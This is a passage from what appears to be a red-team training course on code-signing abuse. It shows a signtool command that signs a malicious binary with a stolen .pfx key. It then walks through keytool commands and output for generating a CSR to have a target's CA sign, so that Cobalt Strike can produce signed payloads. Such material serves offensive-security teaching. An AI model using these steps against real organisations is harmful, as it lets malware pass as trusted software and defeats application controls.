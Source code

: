 If you can find an exported private key (.pfx) and associated password, you can simply use `signtool.exe` from the Windows SDK to sign any binary with it.
```
signtool.exe sign /f SignedAppCert.pfx /p password /fd SHA256 EvilApp.exe
```

Another possibility is to have the CA sign your own certificate signing request.  Cobalt Strike can use such a certificate to automatically generated signed payloads.  This can be especially easy to achieve when the Web Enrollment role is installed.

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/wdac/web-enrollment.png)

First, create a Java KeyStore and complete the information fields.  You can enter anything you want, but when we generate a CSR from this keystore, it will be populated with this information and will ultimately appear in the CA.  We should therefore take some care to make the information look somewhat realistic for the target.
```bash
ubuntu@teamserver ~> keytool -genkey -alias server -keyalg RSA -keysize 2048 -keystore keystore.jks
Enter keystore password:
Re-enter new password:
What is your first and last name?
  [Unknown]:  HelpSystems LLC
What is the name of your organizational unit?
  [Unknown]:  Hacker Squad
What is the name of your organization?
  [Unknown]:  HelpSystems LLC
What is the name of your City or Locality?
  [Unknown]:  Eden Prairie
What is the name of your State or Province?
  [Unknown]:  MN
What is the two-letter country code for this unit?
  [Unknown]:  US
Is CN=HelpSystems LLC, OU=Hacker Squad, O=HelpSystems LLC, L=Eden Prairie, ST=MN, C=US correct?
  [no]:  yes
```

Next, generate the code signing request.
```bash
ubuntu@teamserver ~> keytool -certreq -alias server -file req.csr -keystore keystore.jks
Enter keystore password:

ubuntu@teamserver ~> cat req.csr
-----BEGIN NEW CERTIFICATE REQUEST-----
MIIC8TCCAdkCAQAwfDELMAkGA1UEBhMCVVMxCzAJBgNVBAgTAk1OMRUwEwYDVQQH
EwxFZGVuIFByYWlyaWUxGDAWBgNVBAoTD0hlbHBTeXN0ZW1zIExMQzEVMBMGA1UE
CxMMSGFja2VyIFNxdWFkMRgwFgYDVQQDEw9IZWxwU3lzdGVtcyBMTEMwggEiMA0G
CSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCJuDtP/bn4y9Ha6J+Cp/ywjGxtvVET
K1do5eflb3gBxSQIqjZ5cxKZyCsiyCG3ALkbcxXsDRFQBElQWTu5ijyRhaLHOmvd
2CH6Bj+VmSqjuYHgBoIfzM5QKYs+uAdAGzveFwVyrjfL+4fj5TEu5XnnLp4d+L5n
vthpM4ABaaVPk82mlkWpDqlxp2LNp33ZPi9yUiMAkGSoBtWUEl9zXXl3G7jz+Tmd
KVxcqRpwVpJ1ibMZ/w9GcWDxTpPjlNIEDwLRFaJyPTXcoa84Xmm4ow7CHWJpOn7R
kXyR8wB4BTY5m+Tl7cFN8CqCNnCWumnYpls2ol3k771hS4ZB6yK6VIq5AgMBAAGg
MDAuBgkqhkiG9w0BCQ4xITAfMB0GA1UdDgQWBBSo06E0GI83Cdb9aBy68TGozbDV
6zANBgkqhkiG9w0BAQsFAAOCAQEAVLZXnnAgnErJ2NUQC2YFzVVyKXI4sRipxXX9
ZzVMOtm3+Z85Cf4/N2Zn7lgaOnkj+70dHSUxTzj+aj083dewGIWoqCgikbkPgNYs
dNslS4dhXqHM68anYUsRTiNqJ5QAYujmRwxWIVO/6WX6nRDA2ZnNS9cMz1Nt3+zZ
YPf5vJp3EmBU2fi3Eg3VHT/LAVoA441Yqfywg99JT3oB7ERw1BvLJ1VTSPBNbKcE
sToMLXbgJ3HMBZzAiwZaDpUT+KJ7oV4z/H+HFMThASPVy+tTBEONiqwuNIflvxcO
ILYhBwhe7NaYsTvruS3wAogSH9sSg2yVesJ786eKTR5B4eyOfw==
-----END NEW CERTIFICATE REQUEST-----
```
